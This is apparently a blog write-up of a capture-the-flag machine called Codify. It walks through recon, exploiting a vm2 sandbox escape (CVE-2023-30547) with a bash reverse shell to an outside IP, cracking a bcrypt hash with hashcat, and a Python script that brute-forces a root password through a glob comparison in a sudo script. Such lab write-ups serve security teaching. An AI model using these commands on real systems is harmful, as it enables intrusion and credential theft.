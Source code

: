```yaml
---
layout: post
title:  "Codify Machine (Easy)"
date:   2024-04-05 17:04:54 +0100
categories: ["OS Command Injection", "Brute Force"]
---
```


## Information Gathering

First run a nmap scan to show the services available on the target.

![Nmap scan](/assets/machines/codify.htb/images/1_nmap_scan.png)

*Note:  The output shows port 3000 open, it was someone else who had access to the machine and opened that port.*

The web application use the vm2 software to allow users to execute Nodejs code in the server.

![HTTP Web service](/assets/machines/codify.htb/images/2_http_web_service.png)

The version of vm2 can be found at link of the About us page.

![HTTP Web service](/assets/machines/codify.htb/images/3_http_vm2_version.png)

## Vulnerability Assesment

A quick search on Google reveals that there is a vulnerability for version vm2 3.9.16: [CVE-2023-30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547)

In the following link, we have a [Proof of Concept (PoC)](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244).

## Execute reverse shell

We will exploit the vulnerability by injecting a command that will execute a reverse shell. The command to inject is as follows:

```bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.35/9000 0>&1"
```

![HTTP Web service](/assets/machines/codify.htb/images/4_os_command_injection.png)

Before clicking on `Run`, make sure you have netcat listening.

![HTTP Web service](/assets/machines/codify.htb/images/5_nc_revshell.png)

¡We are in! The next step is to gather information again.

## Brute Forcing Password

We find two users, `svc` and `joshua`. Since we are inside a CTF, it looks like we first need to compromise the `joshua` user by performing privilege escalation, and then go for the root user.

![HTTP Web service](/assets/machines/codify.htb/images/7_users.png)

Searching through the files on the website, we came across the file `tickets.db`, which contains the hashed password of the user joshua.

![HTTP Web service](/assets/machines/codify.htb/images/6_tickets_db.png)

If we look at the hash, it is Bcrypt. Fortunately, we have our trusted tool Hashcat.

```bash
hashcat -m 3200 hash.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

The argument `-m 3200` indicates that we will use the Bcrypt hash.

![HTTP Web service](/assets/machines/codify.htb/images/8_hashcat.png)

The brute force attack was successful, and we obtained the credentials `joshua:spongebob1`. Now, let's cross our fingers that he has reused the password for his account on the server.

![HTTP Web service](/assets/machines/codify.htb/images/9_su_joshua.png)

Thanks God! We got Joshua's flag, and now let's go for root.

## Privilege Escalation

The command `sudo -l` shows us the commands/scripts that we can execute as root.

![HTTP Web service](/assets/machines/codify.htb/images/10_sudo_l.png)

We come across the script `/opt/scripts/mysql-backup.sh`, its contents are as follows:

```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

This script basically performs a backup and stores it in `/var/backups/mysql`. However, to execute the script, we are asked for the root password in the MySQL database. If we enter the wrong password, the rest of the script will not execute.

Fortunately, the following conditional has a vulnerability that we can exploit:

```bash
if [[ $DB_PASS == $USER_PASS ]]
```

Our input has not been sanitized, so we can use the wildcard `*` to brute force the root password. By introducing the next inputs `a*`, `b*`, `c*`, `d*`, `e*`, `f*`, ..., `kl*`.

After a few minutes, I created this Python script to brute force the root password using the previous methodology. Please note that this script does not use symbols like `$,.`, as they could provoke script errors.

```python
import os
import time


# This python script brute force the password by using wildcard * in the password
chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
pass_arr = 'kljh12k3jhaskjh12kjh'.split()
i = 0
while True:
    pass_str = ''.join(pass_arr)
    result = os.system(f"echo {pass_str}* | sudo /opt/scripts/mysql-backup.sh 1>/dev/null 2>/dev/null")
    time.sleep(0.5)

    # If the appended character was not found, replace it with the next character
    if result != 0:
        print(f"Character not found: {pass_str}*")
        i += 1
        # If we have tried all characters, password was found
        if i >= len(chars):
            pass_arr.pop()
            print(f"Password found: {''.join(pass_arr)}")
            break
        # Otherwise, replace the last character with the next one
        pass_arr[len(pass_arr) - 1] = chars[i]
        continue

    # If a new character was found, add it to the password
    print(f"Found character: {pass_str}*")
    i = 0
    pass_arr.append(chars[i])
    continue
```

The above script will perform a brute force attack to obtain the root password.

![HTTP Web service](/assets/machines/codify.htb/images/11_py_bruteforce_start.png)

Finally, after a few minutes, we have obtained the root password.

![HTTP Web service](/assets/machines/codify.htb/images/12_py_bruteforce_end.png)

Use it wisely to obtain the root flag.

¡Happy Hacking!
